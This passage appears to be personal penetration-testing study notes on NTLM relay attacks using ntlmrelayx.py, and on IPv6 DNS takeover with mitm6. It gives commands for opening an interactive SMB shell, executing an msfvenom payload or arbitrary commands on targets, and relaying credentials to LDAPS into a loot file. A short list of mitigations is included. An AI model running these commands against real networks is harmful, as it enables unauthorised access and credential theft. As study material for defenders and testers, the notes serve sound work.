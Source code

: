 * append ***-i*** to `ntlmrelayx.py -tf targets.txt -smb2support -i`
* ***-tf*** stands for ***target file***
* when running interactive see in feeds where an whic port is the one where ntlmrelayx created the interactive shell, I'll use port 11000 as an example here
* then on another tab in tty open up: `nc 127.0.0.1 11000`
* we are in an SMB shell essentially, type in `help` for available commands
* we can do many thing here, we can look at the shares, change password of current user, moving files, directories, create a mount point, upload file, etc.
* `shares` shows the available shares, then `use C$` once in, list it out `ls` and we've got access to the C: drive
* similary we can ls out the admin folder as well

#### Additionally with ntlmrelayx.py

* we can generate a payload with ***msfvenom*** like ***payload.exe*** as an example and execute it on the target machine and then set up a meterpreter listener in ***metasploit*** and get a shell on the target machine
* `ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe`
* or we can execute commands with the ***-c*** option
* it can be from somehting simple as `ntlmrelayx.py -tf targets.txt -c "whoami"` to a more complex reverse shell or powershell command

#### Mitigation strategies

* **ENABLE SMB SINGIN ON ALL DEVICES**
* **PRO:** completely stops the attack
* **CON:** can cause performance issues with file copies
* **DISABLE NTLM AUTHENTICATION ON NETWORK**
* **PRO:** completely stops the attack
* **CON:** if Kerberos stops working, Windows defaults back to NTLM
* **ACCOUNT TIERING**
* **PRO:** limits domain admins to specific tasks
* **CON:** enforcing the policy may be difficult
* **LOCAL ADMIN RESTRICTIONS**
* **PRO:** can prevent a lot of lateral movement
* **CON:** potential increase in the amount of service desk tickets

### IPv6 attacks

#### DNS takeover attacks via IPv6

* who's doing IPv6 DNS...? usually nobody!

#### Installing mitm6

* from github clone **[mitm6](https://github.com/fox-it/mitm6)**
* cd into your new folder: `pip3 install .` will install the requirements for us

#### Attack:

* start mitm6: `mitm6 -d domain.local` let it run
* we also need to setup a relay attack: `netlmrelayx.py -6 -t ldaps://<domain contorller's IP> -wh fakewpad.domaincontoller.local -l lootme`
* **-6** is for IPv6 IPs, **ldaps** attack via LDAP Securte, **-l** for loot, create a loot file used to store information mitm6 dumps out on target
* IPv6 is sending out: who's got my DNS? it sends it out in about every 30 minutes, mitm6 is trying to relay credentials and dump out everything it can into the ***lootme*** file we set up for it
